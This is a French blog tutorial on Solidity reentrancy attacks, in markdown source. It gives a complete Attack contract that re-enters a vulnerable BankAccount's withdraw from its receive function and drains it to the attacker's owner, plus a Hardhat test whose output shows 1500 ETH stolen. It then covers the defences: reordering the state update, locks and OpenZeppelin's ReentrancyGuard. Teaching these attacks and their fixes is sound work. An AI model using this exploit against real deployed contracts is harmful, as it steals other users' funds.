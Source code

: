 ```yaml
---
layout: '../../layouts/Blog.astro'

title: "Solidity: attaque par re-entrance la suite"
description: "Suite du tutoriel solidity expliquant les attaques de re-entrance avec l'étude d'un cas concret."
blogPost: "Attaque par 'Ré-entrance' (reentrancy)"
image: false
---
```


## Réalisation d'une attaque par "reentrancy"
 Pour réaliser notre attaque nous devons d'abord créer un nouveau smart contract qui va appeler notre smart contract <b>BankAccount</b>.
                                <br>Créeons pour cela un nouveau smart contract nommé <b>Attack</b> :
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/access/Ownable.sol";
import "hardhat/console.sol";
interface InterfaceBankAccount {
  function deposit() external payable;
  function withdraw() external;
}

contract Attack  is Ownable {
  InterfaceBankAccount public immutable bankAccountSmartContractAddress;

  constructor(address _bankAccountSmartContractAddress) {
    bankAccountSmartContractAddress = InterfaceBankAccount(_bankAccountSmartContractAddress);
  }
}
```
  Afin de pouvoir dialoguer avec le smart contract <b>BankAccount</b> nous créeons une interface contenant les deux méthodes que l'on souhaitera appeler,
                                puis lors de l'initialisation de notre nouveau smart contract, nous passons l'adresse du smart contract <b>BankAccount</b> et initialisons ce dernier via notre interface.
                                <br>Puis nous pouvons écrire la méthode qui va permettre d'initier l'attaque :
```solidity
function attack() external payable onlyOwner {
    bankAccountSmartContractAddress.deposit{ value: msg.value }();
    bankAccountSmartContractAddress.withdraw();
  }
```

  Cette méthode réalise tout d'abord un dépôt dans notre <b>BankAccount</b>, puis et c'est là où cela va devenir intéressant, demande un retrait juste après avoir effectué le dépôt.
                               <br>
                                La méthode <b>withdraw</b> du contrat <b>BankAccount</b> va alors exécuter l'opération: <b> payable(msg.sender).sendValue(depositedAmount)</b>, c'est à dire faire une demande d'envoi d'argent à celui qui en fait la demande.
                                <br>Or cette fois, c'est notre smart contract <b>Attack</b> qui est l'origine de la demande, donc c'est lui qui va recevoir les fonds. Jusque là, pas de problème.
                                <br>Lorsqu'un smart contract reçoit des fonds, une méthode <b>receive</b> est automatiquent appelée. C'est dans celle ci que l'on va pouvoir mettre en place notre attaque:
                       
```solidity
receive() external payable {
    if (address(bankAccountSmartContractAddress).balance > 0) {
      // Reentrancy by calling again withdraw
      bankAccountSmartContractAddress.withdraw();
    } else {
      console.log("Transfering money...");
      payable(owner()).transfer(address(this).balance);
    }
  }
```
   Il suffit de ré-écrire la méthode <b>receive</b>, pour que quand elle reçoit de l'argent, elle vérifie si le contrat appelant (<b>BankAccount</b>) contient toujours des fonds (c'est à dire si sa balance est spérieure à 0),
                                 et si c'est le cas, elle rappelle aussitôt la méthode <b>withdraw</b>. C'est ainsi que la récursivité va entrer en jeu et que les fonds vont être vidés.
                                 <br>Ensuite si il n'y a plus de fond disponible, notre smart contract attaquant va demander un tranfert immédiat de tout l'argent récolté vers le compte propriétaire du smart contract attaquant.
                                 <br><br>Wow ! 
                                 <br><br>En fait ceci est possible car dans la méthode <b>withdraw</b> on a d'abord la ligne:
                                 <br> <b>payable(msg.sender).sendValue(depositedAmount)</b> puis la ligne:<br> <b>balanceOf[msg.sender] = 0;</b>
                                 <br>
                                 <br>Donc la méthode payable appelle la méthode receive qui rappelle la méthode withdraw qui redéclenche un payable qui appelle la méthode receive, ... 
                                 C'est seulement lorsque la récursivité finit que la ligne <b>balanceOf[msg.sender] = 0;</b> est exécuté.

## Test de l'attaque par "reentrancy"

   Pour vérifier mes propos, écrivons notre test:

```typescript
import { assert, expect } from "chai";
import { ethers } from "hardhat";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
describe("ReentrancyAttack", function () {
    async function deployFixture() {
      const [owner, attacker, account1,account2,account3] = await ethers.getSigners();
      const BankAccountFactory = await ethers.getContractFactory("BankAccount",owner);
      const bankAccountContract = await BankAccountFactory.deploy();

      const attackFactory = await ethers.getContractFactory("Attack",attacker);
      const attackContract = await attackFactory.deploy(bankAccountContract.address);
      return { bankAccountContract, attackContract,owner, attacker,account1,account2,account3};
    }
  
   
      
    describe("Attack", function () {
      it("Should drains all ETH from bank contract", async function () {
        const { bankAccountContract,attackContract, owner,attacker,account1,account2,account3 } = await loadFixture(deployFixture);
        // Deposit to bank from different accounts
        await bankAccountContract.connect(account1).deposit({ value: ethers.utils.parseEther("500") });
        await bankAccountContract.connect(account2).deposit({ value: ethers.utils.parseEther("500") });
        await bankAccountContract.connect(account3).deposit({ value: ethers.utils.parseEther("500") });
        // check balance before attack 
        let accountBalanceBeforeAttack =  await ethers.provider.getBalance(attacker.address);
        console.log(`BankAccount before : ${ethers.utils.formatEther(await ethers.provider.getBalance(bankAccountContract.address)).toString()}`);
        console.log(`===Attacker balance before : ${ethers.utils.formatEther(accountBalanceBeforeAttack).toString()}`);
       
        await attackContract.attack({ value: ethers.utils.parseEther("500") })
       
        // check balance after attack
        let accountBalanceAfterAttack =  await ethers.provider.getBalance(attacker.address);
        let bankBalanceAfter = await ethers.provider.getBalance(bankAccountContract.address)
        console.log(`BankAccount after : ${ethers.utils.formatEther(bankBalanceAfter).toString()}`);
        console.log(`===Attacker balance after : ${ethers.utils.formatEther(accountBalanceAfterAttack).toString()}`);
        expect(bankBalanceAfter).to.eq(ethers.utils.parseEther("0"));
      });
  
       
    });
    
  });
  ```
   et voici ce que donne l'exécution du test:
```typescript
npx hardhat test 


  ReentrancyAttack
    Attack
BankAccount before : 1500.0
===Attacker balance before : 9999.998937286964659732
Transfering money...
BankAccount after : 0.0
===Attacker balance after : 11499.998820990915721432
      ✔ Should drains all ETH from bank contract (781ms)
```
 Comme on peut le voir, notre smart contract <b>BankAccount</b> a un solde de 0 ETH tandis que celui de l'attaquant a été crédité de +1500 ETH...
                            
## Protection contre l'attaque par "reentrancy"
   Dans le cas étudié pour se protéger de l'attaque, le moyen le plus simple est d'intervertir les 2 lignes <b>balanceOf[msg.sender] = 0</b> et <b> payable(msg.sender).sendValue(depositedAmount)</b> comme ceci:
                          
```solidity
function withdraw() external nonReentrant{
    require(balanceOf[msg.sender] > 0, "Pas de fond a retirer");

    uint256 depositedAmount = balanceOf[msg.sender];
    balanceOf[msg.sender] = 0;
    payable(msg.sender).sendValue(depositedAmount);
  }
```

Ainsi on met le solde de l'appelant à 0 avant de lui envoyer l'argent, donc si ce dernier essaye de rappeller notre méthode de retrait, son solde sera à 0 et la transaction sera rejetée grâce à notre première ligne <b>require</b>
                               <br>Voici ce que donne l'exécution du test:
```typescript
npx hardhat test 


 1) ReentrancyAttack
       Attack
         Should drains all ETH from bank contract:
     Error: VM Exception while processing transaction: reverted with reason string 'Address: unable to send value, recipient may have reverted'
```

Une autre solution aurait été d'implémenter ce que l'on appelle un lock (positionnement d'une variable en entrée et en sortie de fonction et vérification de la valeur du lock avant d'autoriser l'execution de la méthode).
                               <br><br>Mais le plus simple est d'utiliser la librairie [d'OpenZeppelin](https://docs.openzeppelin.com/contracts/4.x/api/security#ReentrancyGuard) **ReentrancyGuard** prévue pour ça:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.9;
import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";

contract BankAccount is ReentrancyGuard {
  using Address for address payable;
  mapping(address => uint256) public balanceOf;

  function deposit() external payable  {
    balanceOf[msg.sender] += msg.value;
  }

  function withdraw() external nonReentrant{
    require(balanceOf[msg.sender] > 0, "Pas de fond a retirer");

    uint256 depositedAmount = balanceOf[msg.sender];
    payable(msg.sender).sendValue(depositedAmount);
    balanceOf[msg.sender] = 0;
    
  }
}
```

Il suffit de déclarer toutes les méthodes pour lesquelles on veut éviter la ré-entrance possible avec le mot clé: <b>nonReentrant</b>.
                             <br><br>Et voilà. 
                             <br><br>J'espère que ce tutoriel vous a plus. Pour rappel, vous pouvez trouver le code source de cet article <a href="https://github.com/csurbier/tutoriels-developpement-web3" target="_blank">sur mon GitHub.</a>
                           





<style>
    p { color: white;!important }
    a { color:darkorange!important}
  </style>